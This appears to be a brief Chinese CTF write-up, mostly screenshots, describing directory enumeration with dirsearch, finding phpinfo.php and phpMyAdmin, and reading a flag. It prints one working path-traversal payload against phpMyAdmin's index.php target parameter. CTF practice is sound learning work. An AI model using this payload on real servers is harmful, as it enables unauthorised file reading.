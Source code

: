 ![[Pasted image 20221125210719.png]]

---
首页长这样

![[Pasted image 20221125210651.png]]

`dirsearch`扫到了`robots.txt`

![[Pasted image 20221125220315.png]]

![[Pasted image 20221125211153.png]]

访问`/phpinfo.php`

![[Pasted image 20221125211604.png]]

宁就是`webmaster`嘛www

既然他说和数据库有关，那就记一下叭（虽然不知道有什么用）

![[Pasted image 20221125211941.png]]

---
还有一个`phpmyadmin`扫到了，不知道是啥

![[Pasted image 20221125220518.png]]

emmm没有思路，看看版本号蛮可疑的

![[Pasted image 20221125220708.png]]

![[Pasted image 20221125221044.png]]

![[Pasted image 20221125221327.png]]

看不懂，但能抄.jpg（脚本小子实锤）

```php
/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../flag
```
![[Pasted image 20221125222248.png]]

#Web #PHP #目录爆破 #phpmyadmin #Vulnerabilities #信息检索